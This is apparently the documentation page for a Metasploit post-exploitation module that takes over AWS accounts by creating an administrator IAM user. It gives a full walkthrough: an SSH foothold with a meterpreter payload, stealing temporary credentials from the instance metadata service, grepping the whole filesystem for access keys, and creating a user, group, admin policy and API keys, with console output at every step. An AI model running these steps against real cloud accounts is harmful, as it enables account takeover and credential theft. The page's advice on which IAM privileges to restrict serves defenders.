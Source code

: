 # aws_create_iam_user

aws_create_iam_user is a simple post module that can be used to take over AWS
accounts. Sure, it is fun enough to take over a single host, but you can own all
hosts in the account if you simply create an admin user.

# Background

## Instance Profiles

An Instance Profile is an AWS construct that maps a role to a host (instance).
Not all hosts have instance profiles and/or may have restricted privileges.
AWS roles are composed of policies which specify API calls that the host is
allowed to make.

## Privileges

This module depends on administrators being lazy and not using the least
privileges possible. We often see instances assigned `*.*` roles that allow
any user on the instance to make any API call including creating admin users.
When this occours, a user with long lived credentials can be created and calls
against the AWS API can be made from anywhere on the Internet. Once an account
is taken over in this manner instances can be spun up, other users can be locked
out, networks can be traversed, and many other dangeous things can happen.

Only on rare cases should hosts have the following privileges, these should be
restriced.

* iam:CreateUser
* iam:CreateGroup
* iam:PutGroupPolicy
* iam:AddUserToGroup
* iam:CreateAccessKey

This module will attempt all API calls listed above in sequence. Account takeover
may succeed even if intermediate API calls fail. E.g., we may not be able to
create a new user, but we may be able to create access keys for an existing user.

## Metadata Service

The metadata service is a mechanism the AWS hypervisor employs to pass
information down into hosts. Any AWS host can retrieve information about itself
and its environemtn by curling http://169.254.169.254/. This mechanism is also
used to pass temporary credentials to a host. This module pulls these temporary
credentials and attempts to create a user with admin privileges.

To manually check that a host has an instance profile you can simply curl the
metadata service like so:

```
$ curl http://169.254.169.254/latest/meta-data/iam/security-credentials/
SOME_ROLE_NAME
$ curl http://169.254.169.254/latest/meta-data/iam/security-credentials/SOME_ROLE_NAME
{
  "Code" : "Success",
  "LastUpdated" : "2016-12-07T18:36:48Z",
  "Type" : "AWS-HMAC",
  "AccessKeyId" : "ASIA
  ...
```

# Usage

aws_create_iam_user can be used to take over an AWS account given access to
a host having 1). overly permissive instance profile/role, 2). API Access keys.
Once a foothold is established, you can run the module to pull temporary
access keys from the metadata service. If this fails, search the instance for
API access keys, e.g., see ~/aws/credentals, and set `AccessKeyId`,
`SecretAccessKey`, & `Token` (optional). 

## Options

* `IAM_USERNAME`: set this if you would like to control the username for to user to be created
* `AccessKeyId`: set this if you find access keys on the host and instance has no profile/privileges
* `SecretAccessKey`: set this if you find access keys on the host and instance has no profile/privileges
* `Token`: set this if you find access keys on the host and instance has no profile/privileges. This is optional as this signifies temporary keys, if you find these, these are most likely expired.
* `Proxies`: depending on your environment, you may wan to proxy your calls to AWS.


### Establish a foothold

You first need a foothold in AWS, e.g., here we use `sshexec` to get the
foothold and launch a meterpreter session.

```
$ ./msfconsole
...
msf > use exploit/multi/ssh/sshexec
msf exploit(sshexec) > set password some_user
password => some_user
msf exploit(sshexec) > set username some_user
username => some_user
msf exploit(sshexec) > set RHOST 192.168.1.2
RHOST => 192.168.1.2
msf exploit(sshexec) > set payload linux/x86/meterpreter/bind_tcp
payload => linux/x86/meterpreter/bind_tcp
msf exploit(sshexec) > exploit -j
[*] Exploit running as background job.

[*] Started bind handler
msf exploit(sshexec) > [*] 192.168.1.2:22 - Sending stager...
[*] Transmitting intermediate stager for over-sized stage...(105 bytes)
[*] Command Stager progress -  42.09% done (306/727 bytes)
[*] Command Stager progress - 100.00% done (727/727 bytes)
[*] Sending stage (1495599 bytes) to 192.168.1.2
[*] Meterpreter session 1 opened (192.168.1.1:33750 -> 192.168.1.2:4444) at 2016-11-21 17:58:42 +0000
```

We will be using session 1.

```
msf exploit(sshexec) > sessions

Active sessions
===============

  Id  Type                   Information                                                                       Connection
  --  ----                   -----------                                                                       ----------
  1   meterpreter x86/linux  uid=50011, gid=50011, euid=50011, egid=50011, suid=50011, sgid=50011 @ ip-19-...  192.168.1.1:41634 -> 192.168.1.2:4444 (192.168.1.2)

```

## Overly Permissive Instance Profile

Here we are assuming that we have taken over a host having an instance profile with
overly permissive access. Once a session is established, we can load
`aws_create_iam_user` and specify a meterpreter sesssion,
e.g., `SESSION 1` and run the exploit.

```
msf exploit(sshexec) > use auxiliary/admin/aws/aws_create_iam_user
msf post(aws_create_iam_user) > set SESSION 1
SESSION => 1
msf post(aws_create_iam_user) > exploit

[*] 169.254.169.254 - looking for creds...
[*] Creating user: J2XXox11WW4brAcb
[*] Connecting (iam.amazonaws.com)...
[*] Creating group: J2XXox11WW4brAcb
[*] Connecting (iam.amazonaws.com)...
[*] Creating group policy: J2XXox11WW4brAcb
[*] Connecting (iam.amazonaws.com)...
[*] Adding user (J2XXox11WW4brAcb) to group: J2XXox11WW4brAcb
[*] Connecting (iam.amazonaws.com)...
[*] Creating API Keys for J2XXox11WW4brAcb
[*] Connecting (iam.amazonaws.com)...
[+] API keys stored at: /home/pwner/.msf4/loot/20161121175902_default_52.1.2.3_AKIA_881948.txt
[*] Post module execution completed
```

If the host does not have an instance profile or the right access, the output will look like so:

```
[*] 169.254.169.254 - looking for creds...
[*] Creating user: 3SFFML3ucP1AyP7J
[*] Connecting (iam.amazonaws.com)...
[-] User: arn:aws:sts::097986286576:assumed-role/msftest/i-abacadab is not authorized to perform: iam:CreateUser on resource: arn:aws:iam::097986286576:user/3SFFML3ucP1AyP7J
[*] Creating group: 3SFFML3ucP1AyP7J
[*] Connecting (iam.amazonaws.com)...
[-] User: arn:aws:sts::097986286576:assumed-role/msftest/i-abacadab is not authorized to perform: iam:CreateGroup on resource: arn:aws:iam::097986286576:group/3SFFML3ucP1AyP7J
[*] Creating group policy: 3SFFML3ucP1AyP7J
[*] Connecting (iam.amazonaws.com)...
[-] User: arn:aws:sts::097986286576:assumed-role/msftest/i-abacadab is not authorized to perform: iam:PutGroupPolicy on resource: group 3SFFML3ucP1AyP7J
[*] Adding user (3SFFML3ucP1AyP7J) to group: 3SFFML3ucP1AyP7J
[*] Connecting (iam.amazonaws.com)...
[-] User: arn:aws:sts::097986286576:assumed-role/msftest/i-abacadab is not authorized to perform: iam:AddUserToGroup on resource: group 3SFFML3ucP1AyP7J
[*] Creating API Keys for 3SFFML3ucP1AyP7J
[*] Connecting (iam.amazonaws.com)...
[-] User: arn:aws:sts::097986286576:assumed-role/msftest/i-abacadab is not authorized to perform: iam:CreateAccessKey on resource: user 3SFFML3ucP1AyP7J
[*] Post module execution completed
```

## API Access Keys

In the case that the host we have taken over has no instance profile or does not
have the required privileges, we can search the host for access keys with
something like `grep -r AKIA /`. These keys may have admin privileges at which
point you own the account, if not we may be able to escalate privileges.
We can set `AccessKeyId`, `SecretAccessKey`, & `Token` (optional) and rerun
the exploit to test this possibility.

```
msf exploit(sshexec) > use auxiliary/admin/aws/aws_create_iam_user
msf post(aws_create_iam_user) > set AccessKeyId AKIAAKIAAKIAAKIAAKIA
AccessKeyId => AKIAAKIAAKIAAKIAAKIA
msf post(aws_create_iam_user) > set SecretAccessKey jhsdlfjkhalkjdfhalskdhfjalsjkakhksdfhlah
SecretAccessKey => jhsdlfjkhalkjdfhalskdhfjalsjkakhksdfhlah
msf post(aws_create_iam_user) > set SESSION 1
SESSION => 1
msf post(aws_create_iam_user) > run

[*] 169.254.169.254 - looking for creds...
[*] Creating user: NyTDbU9v6LzzCLXq
[*] Connecting (iam.amazonaws.com)...
[*] Creating group: NyTDbU9v6LzzCLXq
[*] Connecting (iam.amazonaws.com)...
[*] Creating group policy: NyTDbU9v6LzzCLXq
[*] Connecting (iam.amazonaws.com)...
[*] Adding user (NyTDbU9v6LzzCLXq) to group: NyTDbU9v6LzzCLXq
[*] Connecting (iam.amazonaws.com)...
[*] Creating API Keys for NyTDbU9v6LzzCLXq
[*] Connecting (iam.amazonaws.com)...
[+] API keys stored at: /home/pwner/.msf4/loot/20161121175902_default_52.1.2.3_AKIA_881948.txt
[*] Post module execution completed
```

## Loot

You can see the API keys stored in loot:

```
$ cat ~/.msf4/loot/20161121175902_default_52.1.2.3_AKIA_881948.txt

{"AccessKeyId":"AKIA...","SecretAccessKey":"THE SECRET ACCESS KEY...","AccessKeySelector":"HMAC","UserName":"metasploit","Status":"Active","CreateDate":"2016-11-21T17:59:51.967Z"}
```